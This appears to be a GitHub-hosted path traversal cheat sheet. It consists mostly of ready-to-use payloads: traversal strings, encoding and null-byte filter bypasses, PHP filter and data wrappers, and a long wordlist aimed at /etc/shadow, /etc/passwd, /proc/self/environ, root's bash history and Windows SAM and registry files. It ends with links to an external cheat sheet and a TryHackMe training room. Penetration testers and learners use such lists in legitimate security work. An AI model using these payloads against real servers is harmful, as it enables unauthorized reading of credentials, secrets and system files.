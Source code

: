 # Path Traversal Cheat Sheet

#### Common Paths to read
```txt
/etc/passwd
/var/log/apache2/access.log
```
___
#### Common Method
```txt
../../../etc/passwd >> For linux

..\..\..\windows\win.ini >> For windows
```
#### Bypassing Defence Mechanism
1. Sequence block bypass >> ....//....//....//....//etc/passwd
2. Sequence block bypass2 >> ..//..//..//..//etc/passwd
3. Encoding ../ >> %2e%2e%2f
4. Absolute path >> /var/www/images/../../../etc/passwd
5. Absolute path2 >> /var/www/html/..//..//..//etc/passwd
6. Using null byte >> ../../../etc/passwd%00.png
7. Using PHP wrappers >> php://filter/convert.base64-encode/resource=/etc/passwd
8. Using Data wrappers >> data:text/plain,<?php%20phpinfo();%20?>

#### File extension with null byte bypass
```
/etc/passwd%00
../../../etc/passwd%00
..//..//..//..//etc/passwd%00
....//....//....//....//etc/passwd%00
/var/www/images/../../../etc/passwd%00
/var/www/images/..//..//..//..//etc/passwd%00
/var/www/images/....//....//....//....//etc/passwd%00
%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd%00
..%252f..%252f..%252fetc/passwd%00
%2Fetc%2Fpasswd%00
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd%00
%2e%2e%2f%2f%2e%2e%2f%2f%2e%2e%2f%2fetc%2e%2e%2fpasswd%00
```
#### Wordlist
```txt
/etc/passwd
../../../etc/passwd
../../../../../../../etc/passwd
..//..//..//..//etc/passwd
....//....//....//....//etc/passwd
/var/www/images/../../../etc/passwd
/var/www/images/..//..//..//..//etc/passwd
/var/www/images/....//....//....//....//etc/passwd
%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
..%252f..%252f..%252fetc/passwd
%2Fetc%2Fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2f%2f%2e%2e%2f%2f%2e%2e%2f%2fetc%2e%2e%2fpasswd
/etc/passwd%00
../../../etc/passwd%00
..//..//..//..//etc/passwd%00
....//....//....//....//etc/passwd%00
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd%00
..%252f..%252f..%252fetc/passwd%00
%2Fetc%2Fpasswd%00
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd%00
../../../../etc/group
../../../../../../../../etc/passwd
../../../../../../../../etc/hosts
../../../../../../../../etc/shadow
../../../../../../../../proc/self/environ
../../../../../../../../var/mail/root
../../../../../../../../root/.bash_history
../../../../../../../../etc/apache2/apache2.conf
../../../../../../../../etc/mysql/my.cnf
../../../../../../../proc/version
../../../../../../../proc/cpuinfo
../../../../../../../proc/meminfo
../../../../../../../proc/self/cmdline
../../../../../../../proc/self/status
../../../../../../../proc/self/mounts
../../../../../../../proc/self/mountinfo
../../../../../../../proc/self/fd
../../../../../../../proc/self/environ
..\..\..\windows\win.ini
..\..\..\..\..\..\windows\win.ini
%5C%5C%2E%2E%5C%2E%2E%5Cwindows%5Cwin.ini
..%5C..%5C..%5Cwindows%5Csystem32%5Cdrivers%5Cetc%5Chosts
%2e%2e%5c%2e%2e%5cwindows%5csystem.ini
..%255c..%255c..%255cwindows%255cwin.ini
../../../../../../../../boot.ini
../../../../../../../../windows/system32/config/system
../../../../../../../../windows/system32/config/software
../../../../../../../../windows/system32/config/sam
../../../../../../../../windows/repair/sam
../../../../../../../../windows/repair/system
../../../../../../../../windows/win.ini
../../../../../../../../windows/system.ini
/../../../../../../../../boot.ini
/../../../../../../../../windows/win.ini
/../../../../../../../../windows/system.ini
/../../../../../../../../windows/system32/config/system
/../../../../../../../../windows/system32/config/software
/../../../../../../../../windows/system32/config/sam
%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2fetc%2fpasswd
..%252f..%252f..%252fetc%252fpasswd
%2e%2e%2f..%2f..%2f..%2fetc%2fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2fvar%2fwww%2fimages%2f..%2f..%2f..%2f..%2fetc%2fpasswd
%2e%2e%2f%2e%2e%2fetc%2fshadow%00
%2fvar%2fwww%2fimages%2f..%2f..%2f..%2f..%2fetc%2fshadow%00
```
### External Cheat Sheet
https://github.com/JahTheTrueGod/Directory-Traversal-Cheat-Sheet
### To learn
https://tryhackme.com/r/room/filepathtraversal
